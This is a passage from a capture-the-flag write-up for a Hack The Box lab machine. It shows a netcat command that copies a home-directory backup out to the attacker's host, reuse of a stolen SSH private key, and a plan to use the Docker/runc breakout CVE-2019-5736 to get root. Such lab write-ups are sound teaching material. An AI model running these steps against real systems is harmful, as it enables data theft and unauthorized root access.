 I got access to `www-data` account, enumerating valid usernames, I found `noah` and `root` are valid accounts.

## Privilege Escalation to Noah

### Backups

Reviewing backup files, I see that `/home` has a backup that we can read within `/var/backups`, I sent this to my kali box using netcat:

```bash
# Local Machine
nc -nvlp 9090 > home.tar.gz
# Remote Machine
cd /var/backups
nc -w 3 10.10.16.26 9090 < home.tar.gz
```

### Decompressing home backup

After decompressing the file (`tar -xf`), we get access to noah's home directory. Which has an ssh private and public key. Let's use this to ssh as noah:

```bash
cp home/noah/.ssh/id_rsa .
ssh -i id_rsa noah@notebook.htb
```

Now we have ssh access as noah. Let's proceed to privilege escalate.

## Privilege Escalation to root

### Sudo privileges

Running a few basic enumeration commands, we identify that `noah` can run a certain command as root: (`sudo -l`)
```bash
User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

Running `docker --version` we can verify that docker is running on an older version (newest is 20.10), which has a known breakout vulnerability (CVE-2019-5736) which requires `sudo docker exec` access:
```
Docker version 18.06.0-ce, build 0ffa825
```

### CVE-2019-5736

More details on the vulnerably can be found in [Palo Alto](https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/). 

Following <https://github.com/Frichetten/CVE-2019-5736-PoC> , we will create a `sh` binary that will overwrite /bin/sh on the docker instance. This will let us elevate to a root shell.
